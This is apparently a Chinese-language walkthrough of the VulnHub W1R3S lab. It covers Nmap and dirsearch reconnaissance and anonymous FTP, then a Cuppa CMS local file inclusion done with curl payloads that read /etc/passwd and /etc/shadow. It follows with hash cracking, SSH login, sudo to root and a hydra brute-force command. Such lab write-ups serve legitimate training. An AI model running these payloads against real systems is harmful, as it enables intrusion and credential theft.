# 前言

### 靶场介绍

1. 涉及知识点：
   - 主机信息收集
   - Nmap 基础使用
   - FTP 默认用户登入与应用细节
   - 目录爆破
   - 公开 EXP 利用
   - SSH 爆破

靶机下载地址：https://www.vulnhub.com/entry/w1r3s-101,220/

### 涉及工具

- nmap
- dirsearch
- searchsploit
- hydra 

---


# 攻击思路与具体实现

## 1. 信息收集

### 1.1. 使用 Nmap 进行扫描与分析

此阶段的主要目标是执行 Nmap 的四大核心扫描并完成攻击面分析：首先通过**端口扫描**发现开放端口以缩小后续探测范围；其次进行最关键的**详细信息扫描**（如服务与系统版本）；第三步是补充**UDP 扫描**；最后执行**漏洞脚本扫描**。 此外，必要时需兼顾 **IPv6** 网络的排查。在收集完所有数据后，进行最重要的一步——综合**攻击面分析**。

#### 开放端口探测

```bash
nmap -sT --min-rate 10000 -p- 192.168.200.157 -oA nmapscan/ports 
```



#### 提取扫描数据中的端口信息

```bash
grep open ports.nmap | awk -F'/' '{print $1}' | paste -sd ','
```



#### 详细端口信息探测

```bash
nmap -sT -sV -sC -O -p21,22,80,3306 192.168.200.157 -oA detail
```



#### UDP 扫描

```bash
nmap -sU --top-ports 20 192.168.200.157 -oA nmapscan/udp
```

#### 基础漏洞扫描

```bash
nmap --script=vuln -p21,22,80,3306 192.168.200.157 -oA nmapscan/vuln
```

---

## 2. 渗透阶段

### 2.1. FTP 渗透

在 nmap 扫描中发现 21 端口的 FTP 服务存在允许匿名 (anonymous) 访问的文件泄露漏洞，我们可以在泄露的文件中寻找是否有对于我们渗透测试工作有利的信息。

#### 2.1.1. FTP 命令

```bash
$ ftp 192.168.200.146

# 使用 FTP 的匿名用户登入（anonymous）
Name (192.168.200.146:kali): anonymous

# 切换成二进制模式（细节点，防止文件无法下载或者下载下的文件错误）
ftp> binary
200 Switching to Binary mode.

# 交互模式关闭
ftp> prompt 	
Interactive mode off.

# 下载文件
ftp> mget *.txt
```

#### 2.1.2. 分析得到的数据

```text
New FTP Server For W1R3S.inc
#
#
#
#
#
#
#
#
01ec2d8fc11c493b25029fb1f47f39ce
#
#
#
#
#
#
#
#
#
#
#
#
#
SXQgaXMgZWFzeSwgYnV0IG5vdCB0aGF0IGVhc3kuLg==
############################################
___________.__              __      __  ______________________   _________    .__               
\__    ___/|  |__   ____   /  \    /  \/_   \______   \_____  \ /   _____/    |__| ____   ____  
  |    |   |  |  \_/ __ \  \   \/\/   / |   ||       _/ _(__  < \_____  \     |  |/    \_/ ___\ 
  |    |   |   Y  \  ___/   \        /  |   ||    |   \/       \/        \    |  |   |  \  \___ 
  |____|   |___|  /\___  >   \__/\  /   |___||____|_  /______  /_______  / /\ |__|___|  /\___  >
                \/     \/         \/                \/       \/        \/  \/         \/     \/ 
The W1R3S.inc employee list

Naomi.W - Manager
Hector.A - IT Dept
Joseph.G - Web Design
Albert.O - Web Design
Gina.L - Inventory
Rico.D - Human Resources

        ı pou,ʇ ʇɥıuʞ ʇɥıs ıs ʇɥǝ ʍɐʎ ʇo ɹooʇ¡

....punoɹɐ ƃuıʎɐןd doʇs ‘op oʇ ʞɹoʍ ɟo ʇoן ɐ ǝʌɐɥ ǝʍ
```

##### a. 两段加密的密文

- `01ec2d8fc11c493b25029fb1f47f39ce` (MD5)
- `SXQgaXMgZWFzeSwgYnV0IG5vdCB0aGF0IGVhc3kuLg==` (base64)

使用在线 MD5 破解平台和 Base64 工具解出：

```text
This is not a password
It is easy, but not that easy..  
```

##### b. 公司的员工列表

我们继续往下看，发现了一段他们公司的员工列表，可以记录下来，留做后用

```text
The W1R3S.inc employee list

Naomi.W - Manager
Hector.A - IT Dept
Joseph.G - Web Design
Albert.O - Web Design
Gina.L - Inventory
Rico.D - Human Resources
```

##### c. 颠倒反转密文

最后一段文字信息，能看出来是通过颠倒和反转进行的加密，通过截图工具解密后得到下面这段话：

```bash
        ı don't thınk thıs ıs the way to root!
                                                   
we have a ןot of work to do‘ stop pןayıng around˙˙˙˙

```

---

### 2.2. MySQL 渗透

尝试连接数据库，提示本机无法登入。没有其他信息，3306 渗透暂时放弃。

```bash
$ mysql -h 192.168.200.146 -u root -p
Enter password: 
ERROR 2002 (HY000): Received error packet before completion of TLS handshake. The authenticity of the following error cannot be verified: 1130 - Host '192.168.200.142' is not allowed to connect to this MySQL server
```

---

### 2.3. Web 渗透

#### 2.3.1. 网页目录扫描

在端口扫描阶段发现主机的 80 端口开启，直接访问后是一个 Apache 的界面，使用目录扫描，看看有没有其他的服务。

```bash
sudo dirsearch -u http://192.168.200.146 -o dirsearch_146.txt
```



#### 2.3.2. 网页探测

http://192.168.200.146/wordpress/ 会 301 跳转到 localhost，这么做到的？



#### 2.3.3. EXP 查询

http://192.168.200.146/administrator 看上去是一个 CMS 安装界面。



点击 next 尝试去看看能不能安装（注意在实际操作环境中，一定要确定这个操作步骤会不会对系统造成不可逆的影响，你能不能承担这个风险。）



这个系统会不会有 EXP，用 searchsploit 或者 https://www.exploit-db.com/ 搜索一下。

```bash
searchsploit cuppa cms
```



将 EXP 文件移动到现在的操作目录查看，当然也可以直接查看 `/usr/share/exploitdb/exploits` 路径下的文件，这是 searchsploit 默认存放 EXP 的路径。

复制 EXP 到当前路径：

```bash
searchsploit cuppa -m 25971
```


## 3. 漏洞利用

### 漏洞原理分析

阅读 EXP 中的内容中，可以得到这个 CMS 存在一个严重的**本地文件包含（LFI）漏洞**，利用该漏洞可以直接读取 `/etc/shadow` 等敏感系统文件，这才是拿下该靶机的正确方向。

**EXP URL：** https://www.exploit-db.com/exploits/25971

**CMS 源码：** https://github.com/CuppaCMS/CuppaCMS

**漏洞页面源码：** https://github.com/CuppaCMS/CuppaCMS/blob/master/alerts/alertConfigField.php

> 注意：在遇到 CMS 时可以去互联网上寻找是否存在公开的代码，以此进行白盒审计。

#### 漏洞源码

```php+HTML
<div id="content_alert_config" class="content_alert_config">
    <?php include "../components/table_manager/fields/config/".@$cuppa->POST("urlConfig"); ?>
</div>
```

#### 利用原理

- urlConfig 来自用户可控的 POST 参数。
- 这个值被直接拼接进 include 路径，没有做白名单、路径规范化、后缀限制或目录穿越过滤。
- include 会把目标文件当作 PHP 文件载入并执行；如果目标不是 PHP，也会尝试按文件内容输出/解析。
- 因为是相对路径拼接，攻击者可以通过目录穿越把原本应限制在 ../components/table_manager/fields/config/ 下的包含范围“跳出去”，从而包含服务器上的其他本地文件

http://192.168.200.146/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd



使用 POST 方式上传 EXP，尝试读取 passwd 文件

```bash
curl -d "urlConfig=../../../../../../../../../etc/passwd" http://192.168.200.146/administrator/alerts/alertConfigField.php
```



每一条用户数据的第二段都是 X，证明密码是以哈希的方式存在了 shadow 文件中的，所以立刻回去找 shadow 文件看能否读取。

```bash
curl -d "urlConfig=../../../../../../../../../etc/shadow" http://192.168.200.146/administrator/alerts/alertConfigField.php
```

网页可以返回 /etc/shadow 文件，筛选出有哈希的文件保存。



将保存的 hash 值进行爆破处理。

```bash
john shadow.txt
```

密码得出：

> www-data : www-data
> w1rs3 : computer




## 4. 提权

### 登入

通过 Web 程序的文件上传漏洞获得了主机的账户和密码，进行 SSH 登入测试。



可以通过 SSH 登入，尝试对用户提权。

### 收集系统信息

```bash
w1r3s@W1R3S:~$ whoami
w1r3s
w1r3s@W1R3S:~$ id
uid=1000(w1r3s) gid=1000(w1r3s) groups=1000(w1r3s),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
w1r3s@W1R3S:~$ uname -a
Linux W1R3S 4.13.0-36-generic #40~16.04.1-Ubuntu SMP Fri Feb 16 23:25:58 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
w1r3s@W1R3S:~$ sudo -l
[sudo] password for w1r3s: 
Matching Defaults entries for w1r3s on W1R3S.localdomain:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User w1r3s may run the following commands on W1R3S.localdomain:
    (ALL : ALL) ALL
```

### 获取 root 权限

w1r3s 这个用户拥有所有的权限，使用 `sudo -l` 和用户 ID 都可以看出，对用户运行 `sudo su` 获得 root 权限。

```bash
sudo /bin/bash
```



## 5. 其他

### SSH 密码爆破

```bash
hydra -L user.list -P /usr/share/wordlists/rockyou.txt ssh://192.168.200.146 -t 16 -f -u
```

>  `-t`：设置并发线程数
>  
>  `-f`：获取**一个**可用的账号，立即停止
>  
>  `-u`：循环用户名而不是循环密码





